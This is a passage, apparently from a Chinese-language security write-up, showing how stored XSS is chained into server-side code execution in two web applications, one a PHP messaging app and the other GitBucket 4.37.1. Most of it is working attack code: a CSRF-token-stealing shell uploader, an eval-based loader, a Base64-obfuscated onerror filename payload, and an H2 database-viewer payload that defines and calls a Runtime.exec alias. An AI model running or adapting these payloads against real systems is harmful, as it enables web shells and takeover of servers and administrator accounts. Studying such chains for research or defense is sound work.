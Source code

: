 ```
let req = new XMLHttpRequest();
req.onreadystatechange = function() {
  if (req.readyState == 4 && req.status == 200) {
    let response = req.response;
    uploadShellWithCSRFToken(response.querySelector('input[name=SQ]').value);
  }
}
req.open("GET", action, true);
req.responseType = "document";
req.send();
```  
  
现在，攻击者可以给自己写一条私人消息，并将上述漏洞附加为文件。消息发送给自身后，需要获取服务器上托管 javascript 漏洞的路径：  
```
index.php?t=getfile&id=7&private=1
```  
  
下一步是准备将通过存储的 XSS 攻击执行的 JavaScript 有效负载。有效负载的本质是获取早期放置的漏洞并运行它：  
```
$.get('index.php?t=getfile&id=7&&private=1',function(d){eval(d)})
```  
  
仍然需要将所有内容放在一起以形成私人消息中附件的全名。我们将用 Base64 对组装的 JavaScript 有效负载进行编码：  
```
<img src=1 onerror=eval(atob('JC5nZXQoJ2luZGV4LnBocD90PWdldGZpbGUmaWQ9NyYmcHJpdmF0ZT0xJyxmdW5jdGlvbihkKXtldmFsKGQpfSk='))>.png
```  
  
管理员读取攻击者发送的带有附件的私信后，会代表管理员在服务器上创建一个名为shell.php的文件，该文件将允许攻击者在服务器上执行任意命令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjGHiajqhoZKeELS0AiaA2s0dynygUgOWosp5icTZwEKGqII7HKWWVqWIqA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**GitBucket v4.37.1**  
  
链接：https: //github.com/gitbucket/gitbucket  
  
  
GitBucket 是一个由 Scala 提供支持的 Git 平台，具有易于安装、高扩展性和 GitHub API 兼容性。  
  
  
在GitBucket中，我发现主页和攻击者的个人资料页面（/hacker?tab=activity）上未转义显示用户控制的问题名称，这导致了存储的XSS：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjmF9lqjVtRcLN9CT8qDYq12Y338DRSricD25oh4DjicIbIXxNnSxZuqGw/640?wx_fmt=png&from=appmsg "")  
  
进行存储的 XSS 攻击，并尝试利用它在服务器上执行代码。管理面板具有用于执行 SQL 查询的工具 - 数据库查看器。  
  
  
GitBucket默认使用H2 数据库引擎。该数据库有一个公开可用的漏洞来实现远程代码执行。  
  
  
因此，攻击者所需要做的就是根据此漏洞创建一个 PoC 代码，将其上传到存储库并在攻击期间使用它：  
```
var url = "/admin/dbviewer/_query";
$.post(url, {query: 'CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A");return s.hasNext() ? s.next() : ""; }$$;'
})
.done(function(data) {$.post(url, {query: "CALL EXECVE('touch HACKED')"})})
```  
  